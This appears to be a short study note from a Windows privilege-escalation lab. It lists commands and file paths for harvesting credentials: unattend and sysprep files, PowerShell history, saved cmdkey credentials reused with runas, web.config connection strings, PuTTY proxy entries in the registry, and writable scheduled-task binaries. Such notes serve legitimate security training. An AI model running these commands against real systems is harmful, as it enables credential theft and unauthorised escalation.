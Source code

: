## Windows
### Unattended Windows Installations
Windows deployment service allows image to be deployed to multiple hosts.  These can leave an admin account behind:
- C:\Unattend.xml
- C:\Windows\Panther\Unattend.xml
- C:\Windows\Panther\Unattend\Unattend.xml
- C:\Windows\system32\sysprep.inf
- C:\Windows\system32\sysprep\sysprep.xml

```
<Credentials>
    <Username>Administrator</Username>
    <Domain>thm.local</Domain>
    <Password>MyPassword123</Password>
</Credentials>
```

### Powershell History
Powershell stores command history in a file.  From a cmd prompt:
```
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

### Saved Windows Credentials
Windows allows you to save credentials, you can list them with:
```
cmdkey /list
```
You don't see the password, but any credentials can be used with `runas`:
```
runas /savecred /user:admin cmd.exe
```

### IIS Config
Connection string can be stored in the web config of sites
- C:\inetpub\wwwroot\web.config
- C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

```
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString

```

### Retrieve Credentials from Software: PuTTY
While putty wont store SSH creds, it does store proxy creds:
```
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

### Scheduled Tasks
`schtasks` can be used to list scheduled tasks.  One of these may be running as an admin and running an exe that you can control.  `icacls <file_path>` will list the permissions on the exe.
